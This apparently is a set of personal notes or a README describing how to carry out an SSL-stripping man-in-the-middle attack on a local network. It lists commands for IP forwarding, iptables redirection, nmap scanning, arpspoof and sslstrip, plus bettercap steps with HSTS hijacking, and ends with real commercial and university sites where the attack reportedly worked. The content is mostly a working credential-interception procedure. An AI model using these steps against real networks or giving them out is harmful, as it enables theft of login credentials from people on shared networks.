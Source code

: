 #### SSLStripping Process
1.  Enable ip_fowarding so the pc can route traffic
ip_forwarding -- sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
2. ip rerouting -- iptables...
3.  gateway ip address -- route -n
4. Scan target network to find a specific computer
5. nmap -sP 192.168.1.0/24
6. Review scan results and choose a target
7. Arpspoof to redirect the computers http traffic to our computer
7. Whilst that runs in the background start sslstrip
8. Login via the targets computer into some site
9. Review sslstrip log file  -- cat sslstrip.log
iptables affects the host where the command is executed. It modifies how that machine handles incoming and outgoing packets.

#### Quick overview of networking tools
iptables -t nat -A PREROUTING -p tcp --destination-port n - j REDIRECT --to-port N
iptables — modifies the NAT (Network Address Translation) table to redirect incoming TCP traffic on port port  n (in our case 80) over to to port N. 
-A PREROUTING — appends a rule to the prerouting chain, which processes packets before they are routed
-p tcp — specifies that the rule applies to tcp packets
-j redirect — specifies that packets should be redirected

#### arpspoof
arpspoof works at a low level, manipulating the ARP table entries of devices on the local network to redirect traffic without altering firewall rules or packet processing at higher layers.

manipulates the ARP tables of devices on the local network to make them believe that your machine's MAC address corresponds to another device's IP address (like the router or another host)

#### net.probe
net.probe enables network probing within bettercap, allowing the tool to discover devices on the network by sending arp requests and listening for responses

#### net.sniff
net.sniff activates packet sniffing, so bettercap will start capturing and analyzing the traffic flowing through the network

#### Bettercap Steps:
0. sudo bettercap -iface eth0
1. caplets.show (optional)
2. set http.proxy.sslstrip true
3. hstshijack/hstshijack
4. net.probe on
5. net.sniff on
6. arp.spoof on

* Note: ```help``` can be used to view the currently active & inactive modules.

#### Working Sites (in process)
**Sites that worked:**
alibaba
foxnews
ign.com
speedtest.com
thecubicle

**Institutional Sites:**
carleton.edu
mit.edu
washington.edu
and most likely more…
